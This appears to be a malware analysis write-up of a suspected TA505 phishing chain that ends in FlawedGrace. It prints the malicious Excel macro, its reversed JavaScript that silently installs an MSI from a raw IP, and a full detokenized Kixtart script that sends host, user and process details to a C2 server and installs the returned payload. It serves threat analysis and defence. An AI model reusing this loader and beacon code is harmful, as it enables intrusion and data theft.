 # Summary
Suspected TA505 Phish
Attack flow

Phish -> HTML attachment /w link -> XLS /w macro -> MSI (Kixtart) -> MSI (Rebol) -> FlawedGrace

# Email
Sender: 	`admin@commaxdiafon.com`

Subject:  	`Claim Processing 20210925`

Received: 	`from 196-60win.webimhosting.com (HELO webimhosting.com) ([217.195.196.60])`

Contains an html attachment which contains a link to download a malicious XLS hxxps://cdn-8846-sharepoint-office.com/CL09302021_00137[.]xls 

# XLS (deaad3ea1c708cd99e41c4043169aa4d)
- Macro
    ```
    Function Auto_Open()
        Dim a As New ScriptControl
        a.Language = ActiveWorkbook.BuiltinDocumentProperties("Subject").Value
        a.AddCode (ActiveWorkbook.BuiltinDocumentProperties("Comments").Value)
    End Function
    ```
- Comments: ```eval('})"53.502.831.551//:ptth"(tcudorPllatsnI;2=leveLIU{))"rellatsnI.rellatsnIswodniW"(tcejbOXevitcA wen(htiw'.split('').reverse().join(''))```
- Reversed: ```with(new ActiveXObject("WindowsInstaller.Installer")){UILevel=2;InstallProduct("hxxp://155.138.205.35")}```
- Pulls down and executes MSI 

# MSI (84ec41afdc49c2ee8dff9ba07ba5c9a4)
- contains benign kixtart engine (named svchost.exe) and an encrypted and tokenized kixtart script (named svchost.bin)
	
# Kixtart Script (a176738655f7bd7270aa086db0f35451)
- Encrypted and tokenized 
- Developed a python script to decrypt and detokenize: https://github.com/jhumble/Kixtart-Detokenizer
- Full cleaned up kixtart script below
	
I wasn't able to coerce the C2 into giving me an additional payload, but other reporting indicates that it leads to another MSI containing a Rebol script, which downloads and executes FlawedGrace

# Detokenized Script
```
Function base64($string,$mode,$file)
	DIM $xml_object,$xml_doc,$stream_object,$strxml,$rc
	$xml_object =  createobject("MSXML2.DOMDocument.3.0") 
	if $mode
		$strxml = "<B64DECODE xmlns:dt="urn:schemas-microsoft-com:datatypes" dt:dt="bin.base64">" + $string + "</B64DECODE>"
		$rc = $xml_object.loadxml($strxml) 
		$base64 = $xml_object.selectsinglenode("B64DECODE") .nodetypedvalue
		if @errorexit (@error & )  endif 
		if $file
			$stream_object =  createobject("ADODB.Stream") 
			if @errorexit (@error & )  endif 
			$rc = $stream_object.open
			if @errorexit (@error & )  endif 
			$stream_object.type = 1
			$rc = $stream_object.write($base64) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
			$stream_object.savetofile($file,2) 
			exit (@error & ) 
		endif 
	else
		$stream_object =  createobject("ADODB.Stream") 
		if @errorexit (@error & )  endif 
		$rc = $stream_object.open
		if @errorexit (@error & )  endif 
		if  len($file)  and 0 =  exist($file) exit 2 endif 
		if $file
			$stream_object.type = 1
			$stream_object.loadfromfile($file) 
			if @errorexit (@error & )  endif 
		else
			$stream_object.type = 2
			$stream_object.charset = "iso-8859-1"
			$rc = $stream_object.writetext($string) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
		endif 
		$string = $stream_object.read
		$xml_doc = $xml_object.createelement("base64") 
		$xml_doc.datatype = "bin.base64"
		$xml_doc.nodetypedvalue = $string
		$base64 =  cstr($xml_doc.text) 
		$stream_object = ""
		$xml_doc = ""
		$xml_object = ""
	endif 
EndFunction

$wmicoll =  getobject("WinMgmts:root/cimv2") .execquery("Select * FROM Win32_Process") 

For each $wmiobj in $wmicoll
	$proccess = $proccess + "," + $wmiobj.name
Next

$http =  createobject("microsoft.xmlhttp") 
$http.open("GET","http://45.79.239.23/version.php?data=" + base64(@domain + ":" + @hostname + ":" + @userid + "|" + $proccess) ,Not 1) 
$http.send

if $http.responsebody <> 0
	$msi =  createobject("WindowsInstaller.Installer") 
	$msi.uilevel = 2
	$msi.installproduct($http.responsetext) 
endif```


